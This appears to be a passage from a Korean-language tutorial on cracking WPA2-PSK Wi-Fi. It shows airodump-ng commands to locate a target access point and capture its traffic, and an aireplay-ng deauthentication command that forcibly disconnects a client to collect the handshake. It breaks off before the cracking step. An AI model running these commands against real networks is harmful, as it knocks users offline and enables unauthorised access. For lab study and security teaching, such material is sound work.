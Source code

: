 
### 인증 패킷 수집

- airodump-ng 명령으로 공격 대상 AP와 encryption이 WPA2-PSK임을 확인한다.
- `airodump-ng wlan0`
    
    ![unnamed-15.png](img/unnamed-15.png)
    
- airodump-ng 명령어를 사용하여 패킷을 수집한다
- `airodump-ng -c 1 –bssid <AP’s MAC address> -w WPA wlan0`
    
    ![unnamed-16.png](img/unnamed-16.png)
    
- 디렉토리에 WPA.cap 파일이 생성된 모습이다.
    
    ![unnamed-17.png](img/unnamed-17.png)
    
- 인증 패킷을 수집하기 위해 aireplay 명령어를 이용하여 AP에 접속된 클라이언트의 연결을 강제로 끊는다.
- `aireplay-ng -0 0 -a <MAC address> -c <Client’s MAC address> wlan0`
    
    ![unnamed-18.png](img/unnamed-18.png)
    
- 접속 연결전 아이폰의 연결 상태
    